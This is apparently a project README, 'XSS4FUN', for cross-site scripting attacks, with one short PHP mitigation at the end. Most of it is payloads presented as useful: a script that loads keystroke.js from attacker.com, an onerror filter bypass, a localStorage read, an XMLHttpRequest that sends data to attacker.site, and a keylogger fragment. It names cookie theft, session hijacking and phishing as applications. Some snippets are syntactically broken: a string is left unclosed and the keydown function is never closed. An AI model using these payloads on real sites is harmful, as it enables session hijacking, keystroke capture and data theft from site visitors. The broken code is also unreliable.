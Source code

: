 # XSS4FUN :cookie:
Cross-Site-Scripting just for fun.

## Cross-Site-Scripting Applications:
  - Steal cookies for session hijacking.
  - Modify Webpage to perform phishing.
  - Inject malicious code.
## Basic payloads:
  - <script>alert(1)</script>

## Useful payloads:
  - **<script src=https://attacker.com/keystroke.js > </script>**
    - To include malicious javascript code in page.
  - **\<img src=anything onerror=alert(1) >**
    - When the **<script>** is being filtered by the Web Application, you can use javascript events.
  - **<script>alert(localStorage.getItem('salary'))</script>**
    - To collect sensitive information stored in Browser Local Storage.

## Javascript useful codes:
  - To perform HTTP GET request
  ```
  var xhttp = new XMLHttpRequest(); //Init xhttp object
  xhttp.open("GET", "https://attacker.site/strokes.php?data=data, true); //GET request
  xhttp.send(); //Send request
  ```
  - Collect pressed key
  ```
  document.addEventListener("keydown",function(e){
  pressed_key = e.key;
  ```
 
## Automated Detection
  ## xss4fun.py
  Using selenium to find input fields and inject payloads, if the injection is sucessful, a printscreen is made.

## Mitigations    
  ## PHP
   Using **htmlspecialchars** to convert special characters to HTML.
  ```
  $word = htmlspecialchars($_GET['word']);
  ```
  So this **<script>alert(1)</script>** becomes this **\&lt;script\&gt;alert(1)\&lt;/script&gt**
